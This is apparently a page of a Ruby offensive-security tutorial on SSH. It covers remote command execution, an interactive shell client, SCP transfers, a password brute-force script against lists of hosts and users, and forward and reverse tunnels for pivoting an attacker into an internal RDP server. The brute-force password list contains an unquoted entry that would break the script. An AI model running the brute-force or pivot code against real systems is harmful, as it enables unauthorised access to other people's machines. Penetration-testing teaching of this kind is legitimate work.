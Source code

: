 # SSH
Here we'll show some SSH using ruby. We'll need to install net-ssh gem for that.

- To install net-ssh
```
gem install net-ssh
```

## Simple SSH command execution 
This is a very basic SSH client which sends and executes commands on a remote system 
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

## SSH Client with PTY shell
Here a simple SSH client which give you an interactive PTY

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"

Net::SSH.start(@hostname, @username, :password => @password, :auth_methods => ["password"]) do |session|

  # Open SSH channel 
  session.open_channel do |channel|
    
    # Requests that a pseudo-tty (or "pty") for interactive application-like (e.g vim, sudo, etc)
    channel.request_pty do |ch, success| 
      raise "Error requesting pty" unless success 

      # Request channel type shell
      ch.send_channel_request("shell") do |ch, success| 
        raise "Error opening shell" unless success
    	STDOUT.puts "[+] Getting Remote Shell\n\n" if success
      end
    end

    # Print STDERR of the remote host to my STDOUT
    channel.on_extended_data do |ch, type, data|
      STDOUT.puts "Error: #{data}\n"
    end

    # When data packets are received by the channel
    channel.on_data do |ch, data|
      STDOUT.print data
      cmd = gets
      channel.send_data( "#{cmd}" ) 
      trap("INT") {STDOUT.puts "Use 'exit' or 'logout' command to exit the session"}
    end
    
    channel.on_eof do |ch|
      puts "Exiting SSH Session.."
    end
    
    session.loop
  end
end
```

## SSH brute force 

**ssh-bf.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'net/ssh'

def attack_ssh(host, user, password, port=22, timeout = 5)
  begin
    Net::SSH.start(host, user, :password => password, 
        		   :auth_methods => ["password"], :port => port, 
        		   :paranoid => false, :non_interactive => true, :timeout => timeout ) do |session|
      puts "Password Found: " + "#{host} | #{user}:#{password}" 
    end

  rescue Net::SSH::ConnectionTimeout
    puts "[!] The host '#{host}' not alive!"
  rescue Net::SSH::Timeout
    puts "[!] The host '#{host}' disconnected/timeouted unexpectedly!"
  rescue Errno::ECONNREFUSED
    puts "[!] Incorrect port #{port} for #{host}"
  rescue Net::SSH::AuthenticationFailed
    puts "Wrong Password: #{host} | #{user}:#{password}" 
  rescue Net::SSH::Authentication::DisallowedMethod
    puts "[!] The host '#{host}' doesn't accept password authentication method."
  end
end


hosts = ['192.168.0.1', '192.168.0.4', '192.168.0.50']
users = ['root', 'admin', 'rubyfu']
passs = ['admin1234', 'P@ssw0rd', '123456', 'AdminAdmin', 'secret', coffee]

hosts.each do |host|
  users.each do |user|     
    passs.each do |password|
      
      attack_ssh host, user, password
  
end end end
```

## SSH Tunneling

### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ftunnel.rb on the **SSH Server** 

**ssh-ftunnel.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |   |                       |                 |                 |
  `->-'                       |-----------------|-----------------|
```
Run ssh-rtunnel.rb on the **SSH Server** 

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SSH from the **SSH Server** to **localhost** on the localhost's SSH port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file 

```ruby
require 'net/scp'

Net::SCP.upload!(
    		        "SSHServer", 
                    "root",
                    "/rubyfu/file.txt", "/root/", 
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                )
```

- Download file 

```ruby
require 'net/scp'

Net::SCP.download!(
    		        "SSHServer", 
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                  )
```




<br><br><br>
---
- [More SSH examples](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)
- [Capistranorb.com](http://capistranorb.com/)
- [Net:SSH old docs with example](http://net-ssh.github.io/ssh/v1/chapter-6.html)



